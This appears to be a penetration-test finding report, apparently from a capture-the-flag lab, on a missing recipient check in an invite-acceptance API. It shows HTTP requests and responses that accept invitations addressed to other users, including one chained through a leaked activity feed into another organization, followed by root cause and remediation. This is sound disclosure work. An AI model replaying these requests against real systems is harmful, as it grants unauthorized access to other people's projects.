








# T-05: Unauthorized Invitation Acceptance — Missing Recipient Identity Verification

- **CWE:** CWE-862 (Missing Authorization)
- **OWASP:** A01:2021 Broken Access Control
- **Endpoint:** `POST /api/invites/{token}/accept`
- **Severity:** High
- **CVSS 3.1:** `AV:N/AC:L/PR:L/UI:N/S:C/C:N/I:H/A:N` — 7.7

## Summary

The invite-acceptance endpoint does not verify that the authenticated user accepting an invitation is the invitation's intended recipient. The tested account was able to accept pending invitations addressed to other email addresses, with the change persisting as a genuine membership grant. This was tested in two deliberate stages: first confirming the vulnerability within my own organization using only permitted recon, then escalating scope by chaining it with a separate information-disclosure finding (T-02) to reach an invitation belonging to a different organization entirely.

## Discovery

My role has no "Invites" feature in the application's UI, so I had no direct way to view or manage pending invites. The application exposes an API documentation page (Swagger-style), which my account has permission to view. It lists three invite-related routes:

- `POST /invites` — Create a project invite
- `GET /invites/{token}` — Get invite details
- `POST /invites/{token}/accept` — Accept a project invite

Using this documentation, I tested these routes directly against the API rather than relying on the UI, which exposes none of them to my role.

## Stage 1 — Confirming the Base Vulnerability Within My Own Organization

Listed pending invites directly via the API:

```http
GET /api/invites HTTP/1.1
Authorization: Bearer <redacted>
```

Response (200 OK) returned pending invites addressed to **other people**, within my own organization (Acme):

```json
[
  {
    "id": 1,
    "email": "newdev@acme.com",
    "project_name": "Website Redesign",
    "role": "member",
    "token": "INV-0001",
    "status": "pending",
    "created_at": "2024-04-01 10:00:00"
  },
  {
    "id": 2,
    "email": "contractor@external.com",
    "project_name": "Mobile App v2",
    "role": "member",
    "token": "INV-0002",
    "status": "pending",
    "created_at": "2024-04-15 09:00:00"
  }
]
```

Note that my account has no permission in the application's UI to view or manage invites at all — this data was returned by the API regardless.

Accepted the first invite, despite it being addressed to a different email address than my own:

```http
POST /api/invites/INV-0001/accept HTTP/1.1
Authorization: Bearer <redacted>
```

Response (200 OK):

```json
{
  "message": "Invite accepted successfully",
  "project_uuid": "proj-acme-web-redesign-001",
  "project_name": "Website Redesign",
  "role": "member",
  "flag": "FLAG{redacted}"
}
```

Confirmed the change persisted, not just echoed back, by re-fetching the same invite:

```http
GET /api/invites/INV-0001 HTTP/1.1
Authorization: Bearer <redacted>
```

Response (200 OK):

```json
{
  "id": 1,
  "token": "INV-0001",
  "email": "newdev@acme.com",
  "project_id": 1,
  "project_uuid": "proj-acme-web-redesign-001",
  "project_name": "Website Redesign",
  "invited_by": 1,
  "role": "member",
  "status": "accepted",
  "created_at": "2024-04-01 10:00:00",
  "expires_at": "2026-05-01 10:00:00"
}
```

This stage established the core flaw — no verification that the accepting identity matches the invitation's intended recipient — entirely within data I already had legitimate visibility into, before testing how far the issue could be pushed.

## Stage 2 — Chaining With T-02's Activity Feed to Reach a Cross-Organization Invitation

Having confirmed the accept endpoint does not check recipient identity, I looked for an invitation belonging to an organization I have no relationship with at all. T-02's activity feed — itself a separate, unscoped information-disclosure finding — leaked exactly that, returned while authenticated as my own org-1 account:

```json
{
  "id": 17,
  "user_id": 3,
  "user_name": "Charlie Brown",
  "action": "invited_user",
  "entity_type": "invite",
  "entity_id": 4,
  "details": {
    "email": "consultant@external.com",
    "project_uuid": "proj-glob-data-plat-002",
    "role": "member"
  },
  "org_id": 2,
  "created_at": "2024-06-20 10:00:00"
}
```

This confirmed a pending invitation token existed under `org_id: 2` (Globex) — a separate organization from my own (Acme, `org_id: 1`), addressed to `consultant@external.com`, an email address unrelated to my account.

Fetched its full details, still authenticated as my own org-1 account:

```http
GET /api/invites/INV-0004 HTTP/1.1
Authorization: Bearer <redacted — my own, org-1 account>
```

Response (200 OK):

```json
{
  "id": 4,
  "token": "INV-0004",
  "email": "consultant@external.com",
  "project_id": 5,
  "project_uuid": "proj-glob-data-plat-002",
  "project_name": "Data Platform",
  "invited_by": 3,
  "role": "member",
  "status": "pending",
  "created_at": "2024-06-20 10:00:00",
  "expires_at": "2026-07-20 10:00:00"
}
```

Accepted it, as my own org-1 account, despite having no relationship to Globex, its project, or the invitation's intended recipient:

```http
POST /api/invites/INV-0004/accept HTTP/1.1
Authorization: Bearer <redacted — my own, org-1 account>
```

Response (200 OK):

```json
{
  "message": "Invite accepted successfully",
  "project_uuid": "proj-glob-data-plat-002",
  "project_name": "Data Platform",
  "role": "member",
  "flag": "FLAG{redacted}"
}
```

Confirmed persistence with a follow-up fetch:

```http
GET /api/invites/INV-0004 HTTP/1.1
Authorization: Bearer <redacted — my own, org-1 account>
```

Response (200 OK):

```json
{
  "id": 4,
  "token": "INV-0004",
  "email": "consultant@external.com",
  "project_id": 5,
  "project_uuid": "proj-glob-data-plat-002",
  "project_name": "Data Platform",
  "invited_by": 3,
  "role": "member",
  "status": "accepted",
  "created_at": "2024-06-20 10:00:00",
  "expires_at": "2026-07-20 10:00:00"
}
```

## Why This Progression Matters

Stage 1 demonstrates the vulnerability exists independent of any other bug in the application. Stage 2 demonstrates that the real-world impact extends well beyond a single organization: by combining this missing identity check with a separate, unrelated information leak (T-02), the same account gained confirmed membership in a project belonging to an entirely different organization, despite never being its intended recipient. This illustrates why findings should not be assessed purely in isolation — a moderate-severity information leak and a missing identity check can combine into a compromise more severe than either finding represents alone.

## Impact

The tested authenticated account was able to accept pending invitations intended for other users, without the application verifying that the authenticated identity matched the invitation's intended recipient. This was confirmed with one test account; whether the same gap exists uniformly across other roles was not independently tested. Demonstrated impact includes:

- **Unauthorized project membership** within the attacker's own organization, gained by accepting an invitation addressed to a different employee.
- **Confirmed cross-organization membership**, where the same account gained membership in an unrelated organization's project, discoverable purely through a chained information leak, with no elevated privilege required at any point.

## Root Cause

The invite-acceptance endpoint validates only that the supplied token corresponds to an invitation in a "pending" state. It does not verify:
1. That the authenticated user's identity (email) matches the invitation's intended recipient, or
2. That the invitation-listing endpoint (`GET /api/invites`) is restricted to users with an actual permission to manage invitations — the tested account had no such permission in the UI, yet the API returned full invitation data regardless.

## Remediation

- Verify the authenticated user's verified email against the invitation's intended recipient email before allowing acceptance. This is the core fix and should not depend on whether the invitation crosses organizational boundaries, since cross-organization invitations (for example, external contractors) may be a legitimate business flow.
- Ensure the invitation token is valid, pending, and unexpired at the time of acceptance.
- Prevent acceptance by any account that does not match the invitation's intended recipient.
- Restrict invitation listing and token disclosure (`GET /api/invites`) to users with an explicit permission to manage invitations.
- Replace sequential invite tokens (`INV-0001`, `INV-0002`, ...) with non-guessable, high-entropy values as defense in depth — this should not be relied upon as the sole protection.
- Remediate T-02's underlying activity-feed information disclosure, since the cross-organization instance of this finding was only reachable because of that separate vulnerability.

## Evidence









